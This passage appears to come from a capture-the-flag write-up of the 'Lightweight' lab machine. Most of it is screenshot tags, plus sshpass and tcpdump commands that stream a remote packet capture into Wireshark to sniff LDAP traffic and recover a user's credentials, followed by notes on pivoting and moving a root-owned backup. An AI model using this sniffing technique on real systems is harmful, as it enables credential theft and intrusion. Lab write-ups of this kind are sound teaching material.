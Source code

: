 <br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There is a way to capture packets with `tcpdump` directly on my attacking machine, using the command execution that `ssh` allows me to perform. There are some `wireshark` parameters that I must take into account so that the interface that I start capturing immediately is the one provided by `tcpdump` but from the connection that I establish with `ssh`. Then I can interact with the web and start capturing packets related to **LDAP** and with the `wireshark` filters I find again the credentials of the user **ldapuser2**.

```bash
sshpass -p '10.10.14.2' ssh 10.10.14.2@10.10.10.119 "whoami"
sshpass -p '10.10.14.2' ssh 10.10.14.2@10.10.10.119 "uname -a"

wireshark --help | grep -E '\-k|\-i'
# -i <interface>, --interface <interface>
# -k                       start capturing immediately (def: do nothing)

sshpass -p '10.10.14.2' ssh 10.10.14.2@10.10.10.119 "/usr/sbin/tcpdump -i any -w -" | wireshark -k -i - &>/dev/null
# http://lightweight.htb/status.php <-- is the key :)
```

<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I can perform a **User Pivoting**, I find a compressed file that may be a **backup** of a project or directory, I will have to analyze it, I also have access to the first flag. I also have to use `base64` to transfer the file, as with `ssh` it does not allow me, most likely due to permissions because the file is owned by **root**. I check with `md5sum` the integrity of it so that the content has not been compromised in the transfer.

